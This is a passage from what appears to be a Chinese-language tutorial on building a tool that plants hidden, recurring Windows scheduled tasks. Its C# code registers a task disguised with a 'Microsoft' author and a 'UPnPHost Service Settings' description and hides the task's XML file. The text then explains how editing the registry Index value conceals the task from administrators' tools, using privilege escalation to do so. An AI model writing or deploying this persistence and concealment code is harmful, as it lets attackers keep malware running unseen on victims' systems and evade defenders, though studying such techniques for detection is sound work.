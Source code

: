     //创建计划任务  
    public static void CreateTask(string randomname, string destinationFile, string min)  
    {  
        TaskDefinition td = TaskService.Instance.NewTask();  
        td.RegistrationInfo.Author = "Microsoft"; //创建者  
        td.RegistrationInfo.Description = "UPnPHost Service Settings"; //描述  
        //计划任务运行时间 Min/无限期  
        double time = double.Parse(min);  
        TimeTrigger tt = new TimeTrigger();  
        tt.StartBoundary = DateTime.Now;  
        tt.Repetition.Interval = TimeSpan.FromMinutes(time);  
      
        td.Triggers.Add(tt);  
        td.Actions.Add(destinationFile, null, null);  
        string taskpath = @"\Microsoft\Windows\UPnP\" + randomname;  
        TaskService.Instance.RootFolder.RegisterTaskDefinition(taskpath, definition: td, TaskCreation.CreateOrUpdate, null, null, 0);  
    }

### 隐藏计划任务

#### XML 文件隐藏

文中已经说过：

  1. 1. 在 Windows 10 中，删除 XML 文件，并不影响计划任务的运行，且在 `taskschd.msc` 任务计划程序中，依然存在对应任务；

  2. 2\. 在 Windows 7 与 Windows Server 2008 中，若删除 XML 文件，任务计划程序中的对应任务也会被删除，并且影响计划任务的运行。

为了程序的可用性，这里只能将 XML 文件进行隐藏，而不是删除。

    
    
    //隐藏 %SystemRoot%\System32\Tasks 下计划任务对应的 XML 文件  
    public static void HidXml(string taskpath)  
    {  
        string xml = $@"C:\Windows\System32\Tasks" + taskpath;  
        FileInfo info = new FileInfo(xml);  
        if (info.Exists)  
        {  
            info.Attributes = FileAttributes.Hidden;  
            Console.WriteLine($"[*] Hidden task xml file: \n{xml}");  
        }  
    }

#### Index 修改

通过修改 `HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\Schedule\TaskCache\Tree\{TaskName}` 下对应任务的 Index 值为 0后，利用
`taskschd.msc`、`schtasks.exe` 、API 都查看不到所创建的任务。

首先需要更改注册表对应计划任务项值的高级安全设置中的所有者。在未获取特权模式下，工具运行后提示“拒绝访问”，这显然是权限不足。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221222112743.png)

可以使用 TokenManipulator 类 ，从而获取特权模式。这就需要在项目中添加一个新的C#类，之后在头部 `using
CosmosKey.Utils;` 。
